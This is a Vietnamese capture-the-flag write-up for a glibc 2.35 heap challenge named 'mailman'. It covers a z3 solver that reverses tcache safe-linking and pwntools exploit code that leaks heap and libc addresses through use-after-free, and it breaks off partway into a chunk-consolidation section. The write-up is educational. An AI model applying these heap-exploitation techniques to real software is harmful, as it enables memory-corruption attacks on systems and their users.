

# mailman
## Một số điều cần lưu ý ở libc 2.35
- Các chunk được malloc phải thoả điều kiện `chunk & 0xf = 0`, ví dụ 0x1230 0x23a0 thì thoả, 0x1231 không thoả
- Khi free vào tcache có một lớp bảo vệ fd pointer
```
#define PROTECT_PTR(pos, ptr) \
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
```
- Ví dụ `tcache: chunk2 <- chunk1` ở fd pointer 2 sẽ là `(địa chỉ chunk 1) >> 12 ^ (địa chỉ chunk 2)`
- Thì để bypass được lớp bảo vệ này để leak heap thì có khá nhiều cách nhưng có 2 cách thường thấy nhất
- Cách 1 là việc ta đưa 1 chunk vào tcache mà ở đó chunk đó là chunk đầu tiên của danh sách, khi này không có chunk trước đó.`0 >> 12 ^ chunk đầu tiên = chunk đầu tiên`
- Cách 2 là khi ta không thể free một chunk vào đầu danh sách tcache khi này ta dùng z3 để tính
```python
def unsafe_link(e):
    high_e = e & 0xfffffff000000000
    x = BitVec('x',64)
    s = Solver()
    s.add(x & 0xfffffff000000000 == high_e)
    s.add(x ^ (x >> 12) == e)
    s.check()
    return s.model()[x].as_long()
```
- Để leak được stack ta có một biến `environ trong libc`
- Để leak libc thì ta leak fd pointer của một chunk trong unsorted bin

## Khai thác
### Chuẩn bị
```python
def unsafe_link(e):
    high_e = e & 0xfffffff000000000
    x = BitVec('x',64)
    s = Solver()
    s.add(x & 0xfffffff000000000 == high_e)
    s.add(x ^ (x >> 12) == e)
    s.check()
    return s.model()[x].as_long()

def write(idx, size, context):
        sla(b"> ", b"1")
        sla(b": ", str(idx).encode())
        sla(b": ", str(size).encode())
        sla(b": ", context)
def free(idx):
        sla(b"> ", b"2")
        sla(b": ", str(idx).encode())
def show(idx):
        sla(b"> ", b"3")
        sla(b": ", str(idx).encode())
        value = u64(p.recvline(keepends = False).ljust(8, b"\0"))
```

### Leak heap, leak libc
- Cách làm như ở trên trình bày (mình chọn cách 2)

```python
write(0, 0x20, "e"*8)
write(1, 0x20, "1"*8)
free(0)
free(1)
heap_leak = show(1)
heap_leak = unsafe_link(heap_leak)
info("heap leak: " + hex(heap_leak))
```

- Leak libc
```python
# Leak libc
write(0, 0x500-0x10, "a")
write(10, 0x100+0xa0, "a")
free(0)
libc_leak = show(0)
info("libc leak: " + hex(libc_leak))
libc.address = libc_leak - 0x219ce0
info("libc base: " + hex(libc.address))
```

### Consolidation (gộp)
- Tính năng này gộp các chunk liền kề với nhau đã free (không áp dụng cho tcache, fastbin)
- Bằng tính năng trên và việc chương trình không xoá con trỏ sau khi free, ta có ý tưởng sau
- 